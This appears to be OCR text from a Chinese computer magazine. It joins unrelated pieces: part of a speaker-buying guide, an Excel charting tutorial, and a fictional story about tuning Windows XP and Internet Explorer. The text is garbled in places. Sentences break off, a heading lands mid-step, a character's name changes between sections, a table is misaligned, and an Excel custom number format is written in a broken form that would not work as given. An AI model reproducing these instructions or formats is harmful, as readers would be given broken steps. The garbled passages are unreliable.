如果分频设计做的不好，便会出现声音混浊不清的情况，通俗点讲就好像每首歌曲都是周杰伦唱的一样。中低端音箱一般会采用电容分频与分频器分频两种方式，电容分频的优点是成本控制的比较好，但音质较为一般，不会太突出，便宜的产品都用它；分频器分频相对来说三频间会有一定的界线，过渡较为平滑。以上也会根据厂商的技术水准发生变化，某些山寨、杂牌厂商宣称自身采用分频器分频，其最终效果甚至差于电容分频的音箱；品牌厂商的产品，即便是电容分频自身也调校的比较不错，如三诺的N-25G音箱，电容分频也能做到三频分明，此次参与评测的音箱，基本都采用分频器分频，而三诺的N-45G特别一点，用了电子分频器。

不同材质的单元在音色表现上截然不同，在选购音箱产品时一定要注意，音箱拿来主要是做什么的，要了解自己的需求和应用上的侧重点，在资金允许的情况下，尽量选择贴合自己使用条件的单元，这样会省下很多后期折腾的时间。在购回音箱之后，根据扬声器单元材质的不同，需要选取不同的试音碟听音，切不可用激烈的摇滚乐去试羊毛盆音箱，那不是它的长项。这项了解就好，也没必要一定斥求选择特定的单元产品不可，买机器的前提还是以需求为第一要点。

### 影响音质的又一面 箱体材质

现在市面上常见的电脑音箱主要有塑料和木质两类。其中两种不同的材质都有自己的优点，塑料的优点是加工容易，外型能做得比较好看，在大批量的生产中可以做得很低的成本，但也不意味着塑料就是低档的代名词，像一些国外知名的品牌，在高档产品中也使用塑料材质，也能出不错的音色。不过国内的厂家在塑料材质的密度和加工工艺等指标还够理想，一般都是把塑料箱体用在中低档产品。现在的木质音箱中低价位的大多是采用的是中密板做为箱体材料的，而高价位才是大多采用的真正的纯木板做为箱体材料的，要避免箱体谐振和密封性，保证箱体木板的厚度，木板之间结合紧密程度都是影响音质的关键因素。

### 小知识：

箱体谐振与音箱内的驻波是另外两种造成声音混浊的因素。箱体谐振可以简单理解为音箱与接触面发声了共振，影响了放音表现。驻波呢，解释起来比较麻烦一些，大概就是它在音箱内部形成，无法完全避免，关于这点还是选用大厂产品比较有保证。如摩机的一个特定项目就是消除驻波，添加吸音棉或改变箱体内部结构都有助于消除驻波，了解就好。

### 好音也需煲

在用试音碟品味产品之前，还需要做一件事情——煲机。是否所有的音箱都需要煲呢？

不是所有音箱都需要煲机或适合煲机。首先，对于低端音箱而言，由于受价格的限制，其用料大多较差，在这种情况下，煲机对于音质的提升相当有限。另外，不少低价音箱由于功放或喇叭单元的功率余量很小，在长时间大功率的煲机时，较容易造成部件损毁。对于使用此类音箱的用户，建议在使用初期，将音箱音量略开大一些，令其喇叭单元能够“热热身”就可以了。

对于那些喜欢温暖、自然型音色的使用者来说，当使用价格在300元以上的音箱，尤其是以听音乐为主的2.0音箱时，在使用之初，是有必要进行煲机的，这将使得音箱能够更快进入状态，满足自己的需求。

当然了，是否煲机还要看使用者对音乐的理解。音质是个非常主观的东西，未煲机前的偏硬或偏冷的声音，一样有一些使用者会喜欢，甚至认为这样的声音更结实、更有力，听音乐讲究个人口味，所以，只要自己觉得好听就行，没有必要用统一的标准加以规定。下面简单说下音箱的煲机方法。

现在最为普遍、实用性较强的便是漫步者提供的煲箱软件，一劳永逸、简单易用，可以去漫步者网站http://www.edifier.com.cn/sce2009/support/software.php去下载该款软件工具，按着提示的做法一步一步来既可，而流传在发烧友中的7日煲机法耗时比较长，网络上介绍比较全面，在此便不再浪费版面赘述了。

常用的煲箱方法，将两只音箱脸对脸，用声音相互影响，激发单元。

经过煲机后的音箱单元会“开”一些，但也不是完全可以达到熟透的感觉，所以将剩下的工作都交给试音碟吧，按着本文介绍的扬声器单元特性，挑选合适的碟片，细细的聆听，也可锻炼下耳朵对声音的辨别能力，何乐而不为呢？

## # 超越Excel 30张图揭秘图表魅力

说到Excel，很多人都认为是会计才会用到的软件。事实上，很多演讲所用的PPT、支持论点的图表，都依赖Excel来产生，它就像一个强大的数据引擎，控制着各种数字和图表。当你打开一本Excel的书籍，目录一般都是这样的结构：简介、工作表操作、认识行和列、编辑数据、格式化数据、自定义表格、函数的各种应用……这真的是我们需要的吗？大多数书籍都用重点篇幅介绍各种繁琐的函数应用，感觉像在编程一般。这真的是我们需要的Excel书籍吗？本文试图抛弃烦琐的函数编程，让你迅速增强电子表格表现力，强化视觉冲击力，让你的数据彻底说服所有人！

## ## Excel 超越谁？

1983年9月，比尔·盖茨准备与Lotus1-2-3（较早的一款电子表格软件）一决雌雄，秘密安排了一次小范围的研讨，把微软最高层的软件专家关在西雅图的红狮宾馆里，开了整整三天“头脑风暴会”。盖茨宣布会议的宗旨只有一个，那就是尽快推出世界上最高速的电子表格软件。1985年，第一款Excel诞生，它只用于Mac系统。微软公司不准备隐瞒设计这套电子表格软件的意图，从最后为它确定的名字“Excel”中，谁都能够嗅出挑战者的气息。Excel，中文译意就是“超越”！

- * ★excel让你意想不到的事
  - Excel也能画画
    http://www.u148.net/article/9328.html
  - Excel完成的音乐录影带
    http://www.diglog.com/story/technology_other_99125.html

## ## 5 条捷径让你的图表会说话

### ### 1.最差销售员！我代表月亮惩罚你！

不要以为只要用Excel就一定非要用数字，用图表，其实Excel中用一些特殊字体也能反映出指标来。比如，月亮图就能表达出最差到最圆满大概5个等级的图，在一些精度要求不是很高的地方，用这种图示相当实用。这种图原本是一个叫做Harvey的咨询顾问发明的，因此也叫做Harvey Balls，有老外把它制作成特制的字体，非常巧妙。它叫做Harvey_Balls字体（下载地址：http://www.ambor.com/hb/Harvey_Balls.ttf，只有不到4KB）。安装这种字体后，选用这种字体，输入0~9，就显示为对应的小圆图，并且像其他字体一样，可以自由设置其大小、颜色，在Excel中使用很方便。

> 小提示：
> ★这种图一般适用于评价性指标的表现，精度比较小，一般要把数据转换为0~4五个层级。虽然该字体支持0~9，我们一般只用0~4。
> ★如果其他机器没有安装这种字体，则打开文档时只显示为0~4的数字。如何解决？如果是PPT、Word、PDF文档的话，你可以在保存文件时把该字体嵌进去，嵌的办法是在保存选项中设置勾选“嵌入字体”、“不嵌入普通字体”两个选项。但Excel文档则无法嵌入字体，只能转为图片或让对方也安装这个字体。

### ### 2.半圆饼图 凸显个性

在一些商业杂志上，有时候会看到半圆式的饼图，较普通饼图有些创新变化，各部分比例更加清晰，一定程度上能吸引读者的注意力。在excel中用饼图做就可以，技巧是将分项的汇总值亦加入图表，设置其隐形，只利用其占位。第一步：输入数据，建立饼图，注意选中总计部分的数据。第二步：右击饼图中的半圆，选择“设置数据系列格式→系列选项”，然后在第一个输入框中输入270，然后按下“确定”，半圆就转过来了。第三步：右击半圆，选择“设置数据系列格式→填充”，选择“无填充”，确定后半圆就基本完成了。

> 小提示：
> 需要注意的是，由于隐藏了合计值的扇区，显示数值虽然没有问题，但如果标签显示“百分比”的话，会有缩小一半的错误。

### ### 3.奖罚分明！集体海选有绝招

说到用excel进行比对，大家很容易想到竖着的柱形图、饼图，其实从上到下排列、线条简单的条形图很适合这类工作，特别是项目比较多的情况。如何实现这样的效果呢？（见图1）

| A | B | C | D | E | F | G | H | I | J | K |
|---|---|---|---|---|---|---|---|---|---|---|
| 1 | 分类项1 | 0.957 | 0.5 | 分类项1 | -0.957 | 0.5 | -0.5 | 0.3 | 0.3 |
| 2 | 分类项2 | 0.775 | 0.84 | 分类项2 | -0.775 | 0.84 | -0.5 | 0.3 | 0.3 |
| 3 | 分类项3 | 0.598 | 0.6 | 分类项3 | -0.598 | 0.6 | -0.5 | 0.3 | 0.3 |
| 4 | 分类项4 | 0.38 | 1.06 | 分类项4 | -0.38 | 1.06 | -0.5 | 0.3 | 0.3 |
| 5 | 分类项5 | 0.18 | 0.21 | 分类项5 | -0.18 | 0.21 | -0.5 | 0.3 | 0.3 |
| 6 | 分类项6 | 0.12 | 0.18 | 分类项6 | -0.12 | 0.18 | -0.5 | 0.3 | 0.3 |
| 7 | 分类项7 | 0.04 | 0.35 | 分类项7 | -0.04 | 0.35 | -0.5 | 0.3 | 0.3 |
| 8 | 分类项8 | 0.16 | 0.24 | 分类项① | -0.16 | 0.24 | -0.5 | 0.3 | 0.3 |

第一步：按照图中内容输入各组数据，对原数据B~D列，准备转换数据如F~H列，注意，其中G列=--C列。第二步：以F~H列数据作堆积条形图。这时，分类轴的分类项目次序与表格相反，可在分类轴→坐标轴格式→勾选“分类次序反转”，这个地方是一个小技巧。第三步：在分类轴的坐标轴格式中设置刻度线标签在图外。第四步：删除数值轴。设置显示左右条形图的数值标签，并调整到合适位置。



比较A、B、C三家公司在2007、2008、2009三年的业绩。通常的方法是给三个公司建立三个图表，然后分别展示。这样可能需要三个页面，费篇幅不说，还不容易比较。其实我们可以很简单地把三个表格合为一体。第一步：我们将横坐标设为日期，纵坐标为公司名称，填入数据。第二步：选择“插入→柱形图”，生成合并比较的柱形图。

#### #### ★亮点

这样的图表虽然可以比较了，但是当统计数据较多时候看起来比较乱，可以做成折线图比较方便。这样是不是看起来比较生动和直观？我们可以通过添加一些函数来增强他们。由于函数比较复杂，我们不详细介绍了。提供一个模板给大家，大家仅需修改其中的数据就可以直接套用了（下载地址：http://work.newhua.com/cfan/200917/int.rar）。

### ### 4.超级简洁！一条语句的条形图

在文章开头，我们承诺过不讲函数，但这里例外一下，因为这个函数真的很短，也真的很强大，别以为为所有条形图都需要excel的图表生成，其实一句简单的函数就能完成这样的工作。看看这张条形图，你能相信它并没有使用图表功能吗（见图2）？



要实现这个功能很简单，只要两步。第一步：在一列数据右侧的第一行输入“=REPT("|", 100*C4/$C$11)”，其中C4表示左侧数据第一行的单元格位置，后面的C和11代表最后总和所在的单元格位置。第二步：鼠标移动到C5单元格右下角，向下方拖拽出现的十字，下方的单元格出现了自动生成的条形图。怎么样？是不是又简单效果又酷？

> 小提示：
> 函数中的含义其实就是通过当前行与点合的比例关系，重复显示“|”，比例越高重复次数越多，达到形成条形图的作用。

### ### 5.一条线难倒英雄汉

在excel中使用图表，经常会希望突出某一个时间点，比如从某一年开始扭亏为盈，某个月份收入开始超过百万等等。这时候可能希望可以画一条分割线，可是excel却没有提供这样的功能。如何实现呢？第一步：选中图表后，再画线（在“插入→形状→线条”），线条将锚定在图表“容器”中。第二步：按住shift再画线，线条将保持垂直或水平（见图3）。



## ## 走出迷雾 让你的 Excel 更有说服力

### ★图表实例:小又多图表 趋势图轻松排列

我们在使用Excel做图表时，经常需要做这样的

### ★亮点

如何让不同公司区别开来？我们使用“小又多”图表的时候，会发现每家公司的颜色都是一样的，这样不便于区分各家，能不能让各部分颜色独立呢？我们可以按照下面图中的方式填入公司及数据，颜色就可以分开设置了。与常规的输入方法不同，三组数据分别在不同的列中输入，保证了他们可以使用不同的颜色进行对比。注意8、12行的留空，它的作用是使3组数据之间分开来，显得清晰易读。这样的图示是不是更清晰了？但是，由于使用了图例，仍需要阅读者目光移动来确认3组柱子分别都代表谁，我们要进一步优化至下图，使它阅读更方便。这一次，我们的数据包括了B列（之前没有包含B列），这次使用了双层的分类标签，这种做法适用于3组数据数量级相当的情况，这样看起来是不是更加明显了。

### ★图表实例:大图套小图 关系更清楚

我们在制作图表时候，为了展示各部分比例，经常用到饼图。分类的时候经常会出现一个大类里面还有小类，比如CFan男读者占80%，女读者占20%，其中男读者又有一部分是学生。想通过图表来表示这种关系的时候，用一个饼图似乎就难以显示出来，如果用双层的饼图就比较直观了。双层饼图的做法第一步：使用图表向导，以B1:B2为源数据创建饼图。在图表右键选择“选择数据”，添加一个新的数据系列，值引用B1:B2单元格。第二步：在图表向导完成余下的步骤设置。右击饼图圆形，选择“数据系列格式→系列选项→坐标轴”，选中次坐标轴选项按钮。第三步：单击确定按钮返回图表，用鼠标选中系## ★Excel实例:双层饼图制作

列1，按住左键不放，往外拖动圆形。在这里越往外拖，则系列1的形状会变得越小。

- 第四步：松开鼠标左键，系列1的圆形分散为几块扇形，而且体积变得较小。
- 第五步：将系列1的扇形逐个拖回圆心（单击系列1的扇形两次，可以选中它，然后就可进行拖动），接着删除图例。这样，双层饼图就基本完成了。
- 第六步：右键单击饼图，在快捷菜单中选中数据源。在数据源对话框的“系列”选项卡中，设置次分类标志为B1:B2，次分类轴标志为A1:A2。
- 第七步：双击系列1的圆形（较小的圆形），在数据系列格式对话框的“数据标志”选项卡中，勾选“类别名称和百分比”复选框。然后对系列2的圆形做同样的操作。

## ★文字处理实例:数字方向随意调

电子表格总是横平竖直，看起来总有些死板。其实我们只要稍加调整，就可以让一些数字更为凸显，另一些更为“低调”。

看一下第一个统计表格，很平庸吧，年份与销量混在一起，重点并不突出。第二个则不然，年份倾斜处理，销量数字立刻凸显出来。

简单，只要选中要转换方向的单元格，右击选择“设置单元格格式→对齐→方向”，在输入框中输入转换的角度即可，这里我们输入45度角，你也可以按照自己的需要的方向进行修改。

## ★文字处理实例:让文字按需求变色

我们在使用Excel表格的时候，可能经常会有这样的需求：达到某种指标的数值用蓝色，而超过某数值的用绿色，低于某数值的用红色。这样的例子在学生成绩单、业绩销售报表中经常被使用。如果手动添加，似乎太麻烦了，能不能自动完成呢？

### 1. 界限分明

如果要求Excel工作表中大于60用“蓝色”显示，小于60用“红色”显示，可以这么实现：选中所需的单元格区域，然后打开“单元格格式”对话框（点击“格式→单元格”菜单），单击“数字”选项卡，在“分类”框中单击“自定义”，在“类型”框中键入“[蓝色]|>=60|[红色]|<60]”，单击“确定”按钮。现在，Excel就给数字加上不同的颜色了。

| 类型        |
|-------------|
| >=60|[红色]|<60] |

### 2. 单位自动填

在Excel工作表中，当你需要给数字加上金额单位（如“万元”）时，选中所需的单元格区域，然后打开“单元格格式”对话框，单击“数字”选项卡，在“分类”框中单击“自定义”，在“类型”列表框中键入“#“万元””，单击“确定”按钮即可。

### 3. 输入提速

在你编辑Excel工作表时，可能会遇到大量重复数据需要录入的情况，本来可以用复制粘贴的方法，但可能重复的部分处于短语的不同位置，比如我们可能在多处需要输入“北京市海淀区”、“北京市丰台区”、“北京市石景山区”等内容，我们可以这样做：选择需要用的单元格区域，然后打开“单元格格式”对话框，单击“数字”选项卡，在“分类”框中单击“自定义”，在“类型”框中输入“北京市@区”（“@”是半角字符），单击“确定”按钮。现在，单击刚才选中的单元格区域中一个单元格，并在其中输入“海淀”二字，按下回车键后，你会惊喜地发现，这个单元格中出现的是“北京市海淀区”。

## ★图表实例:妙用群组隐藏指定内容

当遇到表格中有很多行的数据的时候，可能有些不重要的数据隐藏起来更好。很多朋友知道Excel具有隐藏某行、某列的功能，但是这种方法隐藏之后阅读者无法注意到，可能还会忽略阅读。其实Windows管理器提供了给大家一种不错的方式——就是将某些文件夹折叠起来的功能，只要按动“+”就可以改变状态。其实，Excel中也有类似的选项，用户可以轻松地隐藏或显示内容。

- 第一步：打开表格，选中需要隐藏的资料行。
- 第二步：假设我们希望只显示手机类、汽车类、家电类、其他类4个主要项目，而想把手机类下方的具体品牌和销量的资料隐藏。
- 第三步：选中这些部分，依次选择“数据→组合→组合(G)”，然后在弹出窗口中点击“确定”。这时，你会看到选中部分已经被隐藏，旁边有加号的位置可以点击，点击后隐藏的内容就显示出来了，点击减号会再次隐藏。注意到左上角的1和2了吗？这表示两种状态，按下1全部折叠隐藏，按下2全部展开显示。

怎么样，数据隐藏展开完全由自己控制，是不是超级方便？

## ★图表实例:谁说饼图只能用颜色填充

当你向别人展示某种产品的市场份额时，饼图无疑是一种很好的方法，但是如果饼图的背景是蛋糕，是不是更加形象一些？同样的情况，如果饼图的背景是地球、硬币、钞票……这样的饼图会不会更有效果？

- 第一步：输入一组数据，选中它们，然后选择“插入→饼图”，出现初始的饼图。
- 第二步：右击饼图，选择“设置数据系列格式→填充→图片或纹理填充”，按“文件”按钮，选择一张照片，按下“确定”。

是不是很不满意？本来希望把一块“蛋糕”分割开，结果却把整个画面填充到了每个扇形里面，这显然不是我们想要的，该怎么办？

## ★亮点

## 制作真正的蛋糕背景

- 第一步：右击上面第一步制作的没有背景的饼图，选择“设置数据系列格式→填充”，选择“无填充”。
- 第二步：在“边框颜色”中选择白色的实线。
- 第三步：点击“插入→形状→椭圆”，按住Shift键拖动鼠标，生成一个比饼图稍微大一些的圆形。右击圆形，选择“设置图片格式→填充→图片或纹理填充”，按“文件”按钮，选择合适背景图片，按下“确定”。这样，圆形的图片背景就生成了。
- 第四步：将圆形图片保存下来，用填充的方式填充到饼图的绘图区，就可以实现饼图的效果了。

## 总结

怎么样？是不是不学函数、不买超贵的书，同样能学到很多有用的Excel知识？赶快动手吧，从今天开始，你的Excel已经开始飞跃啦！


## ★本文可以学到

- ▲系统图形处理内幕
- ▲节省资源的界面优化
- ▲AJAX到底是什么
- ▲多种方法实现提升看网页速度
- ▲利用多核CPU提高程序效率
- ▲利用大内存提升上网速度

*谨以此文悼念已故的朋友潜龙，希望他在天堂一切安好。文中所涉人物、地点、事件等均为虚构，如有雷同，实属巧合。

正如几十年前的人们无法预见有一天计算机竟然能够堂而皇之地进入普通人的家庭，甚至可以随身带着随时拿出来用一样，就在我们尚在议论Windows Vista是否真的能取代Windows XP成为主流操作系统时，Windows 7竟然已经出乎意料地来了！我们的故事就发生在这个新旧交替让人目不暇接的时代……

“起了啊！至少也得是Vista了。”说完又自顾自地坐了下去，享受着周围同学羡慕的目光，同时轻蔑地往龙晓所在的方向看了一眼。陈老师像是觅得了知音，所以也并不介意马江的无礼，反而赞许地看了一眼：“嗯，你也这么觉得啊？”

### 小知识：新版本系统是否比老版本更快

通常Windows系统的新版本都会较上一版本在内存管理、进程控制等方面都会有所提升，但同时也会把界面做得更华丽（更消耗内存和CPU资源）。新版本系统推出的同时硬件环境也进一步提升了，如果在以前的老电脑上装Windows 2000和Windows XP，那无疑是老版本的2000会更快。

发现边上的云芮默默低下了头，龙晓才想起来，原来班上还在坚持用Windows XP的只有他和同桌云芮了。本来龙晓是不想理会这种低级的挑衅的，因为他知道很多Windows阵营的黑客都不会贸然升级系统的，他们中甚至还有人仍在用Windows 98，可一想到家庭条件不好的同桌可能因为这个而变得更加自卑（云芮父母都下岗了，学校要求配置的电脑也是借钱买的，配置很低，XP已经是极限了），龙晓坐不住了。

### 小知识：Windows 98是否更安全

由于Windows 98采用ANSI的字符处理方式，而Windows 2000/XP/Vista等则采用Unicode字符处理方式，并且Windows新版本中添加的很多新API函数在98系统下无法调用。这就直接导致了一个有趣的现象——很多流行的木马或恶意程序无法正常地工作在Windows 98上了！用的人越少，自然也就越安全。

“那你要不要比试一下？我就用云芮的这台。”龙晓也站了起来，同时给了云芮一个我办事你放心的眼神。马江大喜：“好啊！谁怕谁啊？输的人围着操场跑一百圈。”于是，这场有关尊严的竞技开始了。

### 从简约到简陋再到丑陋

云苗：“可以是可以……可是为什么要这样做？” “我们的目标是把界面设置得简约、简陋，甚至丑陋，”龙晓已经开始设置了，“这样系统在画各种程序窗口的时候就能够快一点儿，而且节省内存。”

### 神秘地显示“中间人”

云苗还是有些不明白：“为什么苹果电脑的界面那么华丽，可是速度却非常流畅呢？” “你说中午的时候是你自己去食堂打饭会快一点儿呢，”龙晓问道，“还是让同学帮你带回来会快一点儿？”

### (1) 唠叨的GDI

我们运行的程序如果要在屏幕上做出反应，比如显示窗口，鼠标点击按钮时的凹陷状态，都需要通过显卡处理才能反馈在屏幕上。Windows的界面显示都是通过内置的GDI（Graphics Device Interface/图形设备接口）相关的函数来操作的，过程大致如下：

程序A对GDI说：“GDI，我需要在屏幕的（X200，Y350）到（X500，Y600）的位置画一条黑色的线。” GDI对程序A说：“好的，请稍等。” GDI对CPU说：“CPU，请帮我计算从（X200，Y350）到（X500，Y600）要经过的所有点坐标。” CPU思考了一会儿后说：“好的，你需要的第一个点是……第二个点是……第三个点是……处理完成。”

GDI将CPU的处理结果记好后，转而对显卡说：“显卡，请帮我从（X201，Y351）画一个黑点。” 显卡的回答很简单：“好。还有别的事吗？” GDI继续说：“再帮我在（X202，Y352）画一个黑点。” 显卡有点汗：“好。还有啥事不？” GDI接着又说……

直到这几百个点画完，显卡已经累得满头大汗了：“我说哥们，你就不能直接告诉我从哪里到哪里画一条黑线？” GDI也有点不好意思：“我也想啊，可是没有这个权利，好像DirectX敢这么干。”

### (2) 能干的DirectX

由于GDI在处理图形时会将大量的计算工作交给CPU而非显卡，所以在配置相对较低的电脑上用Windows各种华丽的界面风格就会带来速度上的迟滞。我们再来看看DirectX是怎么干的：

程序B（通常是游戏类程序）：“DirectX，我需要在屏幕的（X200，Y350）到（X500，Y600）的位置画一条黑色的线。”

DirectX对程序B说：“好的，马上好。”

DirectX对显卡说：“在（X200，Y350）到（X500，Y600）的位置画一条黑线。”

显卡心想这哥们挺干脆，所以回答倒也痛快：“瞧好了您呐，画好了。”

DirectX迅速向程序B交了差，便又去睡觉了。

### 小知识：图形的光栅化

在电脑里画条斜线，实际上并不简单，电脑还得将你画的斜线根据显示器能显示的像素数进行处理，最后生成一条由像素点连接组成的斜线图案，将斜线放大到像素级查看，你会发现并不是你想象的那样。这种将图形转换为可显示的像素点坐标序列的过程称为图形的光栅化。

Windows中只有需要涉及大量图形运算的程序才会使用DirectX或OpenGL等能够直接操作显卡高级特性的API函数，而普通的界面显示则通过GDI来完成。所以将界面设置得简陋一些就能提高速度。苹果系统的界面虽然华丽，但大量使用了显卡的计算能力，所以非常流畅。

### 小提示：DirectX 10的改进

如果使用支持DirectX 10的显卡来运行Windows Vista的华丽界面，那么情况又会好很多，因为DirectX 10能够充分利用显卡的GPU资源进行Vista界面效果的渲染，而不是疯狂地使用CPU。

### 好吧！同意你把界面弄丑

经过龙晓这讲故事似的讲解，云苗已经听得两眼冒出了崇拜的小星星：“龙晓你好棒啊！你的水平快赶上陈老师了吧！”龙晓顿时一头雾水，只能嗯嗯地敷衍了过去。这回云苗可是心甘情愿地让龙晓把电脑

### 傻博士疑难问答1

- 问：我的电脑刚刚装了系统，为什么窗口移动都一卡一卡的，不可能中毒啊？
- 答：刚重装完的系统在不上网的情况下中毒的可能性较小（用了带病毒U盘之类的当然无法避免）。窗口移动迟滞很有可能是所用显卡和Windows自带的显卡驱动程序兼容性不好，或者是显卡自带驱动盘中的驱动程序有问题。推荐到驱动之家（http://www.mydrivers.com）下载发布时期离显卡上市时间较近的WHQL驱动程序（带有“WHQL”字样的驱动表示通过微软硬件兼容性认证）并安装。

### 傻博士疑难问答2

- 问：我现在的电脑用了好几年了，显卡比较老，玩一些新出的游戏时能进界面但是一开始游戏就黑屏或显示不正常，该怎么办？
- 答：对于老显卡或低端显卡来说，使用OpenGL的图形渲染方式会比DirectX方式运行效果更好（前提是此游戏支持OpenGL），设置的方法通常是在打开游戏后的图形/显示设置中将显示方式改为OpenGL，也有些游戏是通过运行参数来设置的，例如魔兽世界，设置方法如下。

右击桌面上的魔兽世界快捷方式图标，选择“属性”，在“属性”窗口中把“-opengl”字段添加“目标”文本框的最后，也就是设置为“D：\Games\World of Warcraft\WoW.exe”“-opengl”（参数加在英文双引号外，中间空一格）。

### 小提示：把主题服务关闭

改回经典界面的Windows XP就不再需要主题服务，可以关闭掉节省内存。运行“services.msc”，在右边的列表中找到并双击“Themes”服务，在“常规”选项卡中点击“停止”并将“启动类型”设置为“已禁用”，点击“确定”。

## Windows 7时代的浏览速度之争

龙晓随意地用IE打开了几个网站，微皱了下眉头：“接下来是提高浏览网页的速度。”

“这个我懂，”云苗终于感觉自己有了用武之地，“不就是让IE不要下载图片、Flash、音乐之类的东西吗？”

龙晓笑了笑，也不作答，示意云苗继续说。

### 云MM的网页过滤之道

“其实我的方法很简单啦！”云苗有点不好意思，“就是用TheWorld、Maxthon这样的浏览器，里面都有不显示图片、Flash之类的选项的。”

多数基于IE内核的多窗口浏览器都提供了过滤页面元素的功能，以经典的TheWorld 1.4x为例：在TheWorld主界面上方选择菜单“工具→页面元素”，在下一级子菜单中根据需要取消“显示图像”、“显示视频”等的选项即可。

### 不借助外力，龙晓的过滤之道

龙晓有些惊讶云苗竟然用的是TheWorld（要知道班里那帮废柴可都是用的是IE，撑死了用QQ自带的TT浏览器）：“其实图片倒也还好，网页里的Flash倒是很影响载入速度的，不过在TheWorld里这样设置之后，所有的页面都一样不显示多媒体内容了，这样我们去看视频怎么办？”说着，便向云苗演示了他的独门秘技。

### (1) 禁止加载网站的Flash内容

- 第一步：打开IE浏览器，选择菜单“工具→Internet选项”。
- 第二步：在“Internet选项”窗口的“安全”选项卡中，在窗口上方的安全区域框中选中“Internet”，此时下方的“该区域的安全级别”默认应该为“中-高”，点击“自定义级别”。
- 第三步：在弹出的“安全设置-Internet区域”窗口中，找到“ActiveX控件和插件”下的“运行ActiveX控件和插件”，将默认的“启用”更改为“禁用”。

云苗看到龙晓的方法，着实有些羡慕：“原来这样也行啊？不过这样的话所有的网站不也都不显示Flash了吗？”龙晓笑着说：“别急啊！还有呢……”

### 小提示：此方法禁止的不只是Flash

虽然网页中出现频率最高的ActiveX插件是Flash，但网上银行、支付宝等网站的页面中也采用了ActiveX技术来防止用户密码被盗窃，所以禁用ActiveX控件和插件会影响到这些网站的正常使用。解决方法嘛……见下文。

### (2) 提升可信网站，啥都能看

- 第一步：在IE中打开要加入信任列表中的网站，比如“http://www.uuland.com”。
- 第二步：根据上文的方法打开“Internet选项”窗口，在“安全”选项卡中，选中“可信站点”图标，此时安全区域框下方的“站点”按钮变为可用状态，点击它。
- 第三步：在弹出的“可信站点”窗口中，刚才访问的网址已经在输入框中了。先取消下方“对该区域中的所有站点要求服务器验证（https：）”的勾选，然后点击“添加”将输入框中的网址加入可信站点中。

这样设置过后，在可信站点列表中的网站就不受之前禁用ActiveX的限制了，Flash当然也能正常显示了。

### 小提示：不要随意添加可信站点

IE中对于可信站点的安全检查较简单，限制也很少。所以如果不是那些肯定不会挂木马而且也不太容易被人黑的大网站外，不建议随意添加网站到可信站点中，微软之所以添加那个“https”的选项就是希望只将在线支付等非常安全的站点使用此设置。

### 速度之争，实际是AJAX之争

“现在剩下的唯一问题就是AJAX了。”龙晓对刚才自己的表现很满意。云苗现在终于有些明白了，龙晓似乎比陈老师还要高那么一点点啊：“龙晓你知道AJAX到底是什么……”

### (1) 新瓶装旧酒的产物

“网速提高了，不能让它闲着”，基于这样的思路，很多网站想尽一切方法把自己的网站弄得异常复杂。2005年前，大家都喜欢往自己的网站里加入无数的Flash，实现一些页面上的交互式变化。当时，传统的JavaScript技术越来越不受重视，甚至被认为是即将淘汰的技术。

可是今天，如果还有谁这么想，那绝对就是傻子，因为Google的Gmail让大家发现了原来JavaScript可以这样用，网页里的内容竟然可以在加载完成后再更改！因为老技术的这个新应用，世界震惊了。AJAX（Asynchronous JavaScript + XML/异步JavaScript和XML），所包含的仅是几种老技术的组合应用。说专业术语没几个人能明白，我们只需要知道AJAX为我们带来了什么。

### 场景A：打开无数条评论的网页文章

很多网站上的新闻评论数量都非常庞大，如果用传统的技术来做网页，那么访问者在打开网页后就必须等待IE把这几百条评论也全下载完，然后才能正常显示新闻页面。而AJAX技术则能让网站多一种选择，先显示网页中的新闻，当你看新闻时，可能会看到评论里显示“评论加载中”之类的提示。过几秒后，评论里的内容竟然奇迹般地出现了。

### 场景B：注册时检查论坛用户名是否可用

以往在论坛要注册新用户时，在提交时都会检查用户名是否和已有用户重复，这样势必要打开一个新窗口或者让当前注册网页刷新。而运用了AJAX技术，在你点击检测后，网页中的JS代码就会向数据库发出查询请求，在当前页面中就能直观地显示当前输入的用户名是否可用。

### (2) 管了客户端，苦了老电脑

AJAX虽然能极大地提高用户体验，但我们在打开网页的同时，大量JavaScript脚本消耗着本就不富裕的CPU资源。如果不率碰上个糟糕的程序员写的JavaScript代码，甚至可能造成长时间无法响应。

### (3) “Java小程序脚本” != JavaScript

龙晓你看，我在网上搜到了刚才那种可信站点的方法屏蔽了JavaScript。”云茜高兴地说。
龙晓一看，那篇文章上说在Internet区域的安全设置中把“脚本→Java小程序脚本”设置为“禁用”，就能让非受信网站无法运行JavaScript。这完全是错误的说法，因为此处的“Java小程序脚本”指的是“JavaApplet”，而不是仅有Java部分语法特征的JavaScript脚本。

小提示：JavaScript就是“活动脚本”
在IE的安全设置中，真正屏蔽JavaScript脚本的选项是“脚本→活动脚本”。

## 龙晓用的浏览器

- (1) Firefox
下载地址：http://www.mozillaonline.com/
推荐理由：最新的3.5版本采用全新的JavaScript引擎TraceMonkey，处理速度比原来快了一倍都不止，Firefox是先下载文字内容最后再下载图片的（IE是同时下载），所以我们能更快地看到网页。另外，强大的可定制性让每个人都能拥有属于自己独一无二的浏览器。

- (2) Google Chrome
下载地址：http://www.google.com/chrome/
推荐理由：内置的JavaScript引擎V8号称是目前最快的JS引擎，同时Google简约的界面也非常受欢迎。

## 傻博士疑难问答1

问：我把IE从6.0升级到7.0之后，很多网站显示就不正常了，原本应该有内容的地方现在经常是什么都没有。
答：IE7.0开始将XMLHTTP作为窗口对象的一个属性，而非ActiveX组件了，而XMLHTTP则是AJAX技术的关键。很多针对IE老版本编写的AJAX脚本在IE7.0下都无法正常调用XMLHTTP对象，解决方法是：打开IE浏览器，选择菜单“工具→Internet选项”，在“高级”选项卡的“设置”框中找到“安全→启用本机XMLHTTP支持”，取消勾选状态，点击“确定”。

## 傻博士疑难问答2

问：最近浏览个别网站时会出现网页显示不完整的情况，有时还会提示脚本运行时间过长，是否终止。什么情况？
答：如果排除网站本身代码的问题，那么可以尝试清空浏览器中的缓存文件，方法是打开浏览器的“Internet选项”，在“常规”选项卡下的“浏览历史记录”栏中点击“删除”，然后勾选“Internet临时文件”、“Cookie”、“历史记录”，点击“删除”按钮。

## 系统资源之群雄争霸

“你的电脑其实也不算太差，”龙晓对云茜说，“至少也还是双核的，这样优化的空间会比较大。”

核太多，不好管
原来的单核技术相当于是一个能力超强的员工，不断提高工作效率但也有个极限。现在多核技术曾被认为是频率瓶颈的救世主，也就是再多请几个员工，但这样同时会带来新问题——谁来管理这群新员工？又有谁能管好这么多员工让他们真正提高工作效率？

- (1) 带程序“认亲戚”
